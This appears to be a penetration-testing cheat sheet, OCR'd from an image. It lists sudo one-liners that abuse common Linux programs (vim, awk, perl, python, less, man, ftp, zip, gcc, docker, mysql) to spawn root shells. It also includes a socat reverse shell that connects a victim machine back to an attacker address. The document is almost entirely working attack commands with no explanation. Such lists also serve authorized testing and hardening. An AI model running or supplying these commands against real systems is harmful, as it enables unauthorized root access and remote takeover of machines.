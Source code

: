 Vim
```
sudo vim -c ':!/bin/bash'
```

Awk
```
sudo awk 'BEGIN {system("/bin/bash")}'
```

Perl
```
sudo perl -e 'exec "/bin/bash";'
```

Python
```
sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
```
sudo python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Less
```
sudo less /etc/hosts - !bash
```

Man
```
sudo man man - !bash
```

ftp
```
sudo ftp - ! /bin/bash
```

socat
```
Attacker = socat file:`tty`,raw,echo=0 tcp-listen:1234
Victim = sudo socat exec:'sh -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.105:1234
```

Zip
```
echo test > notes.txt
sudo zip test.zip notes.txt -T --unzip-command="sh -c /bin/bash"
```

gcc
```
sudo gcc -wrapper /bin/bash,-s .
```

Docker
```
sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

MySQL
```
sudo mysql -e '\! /bin/sh'
```
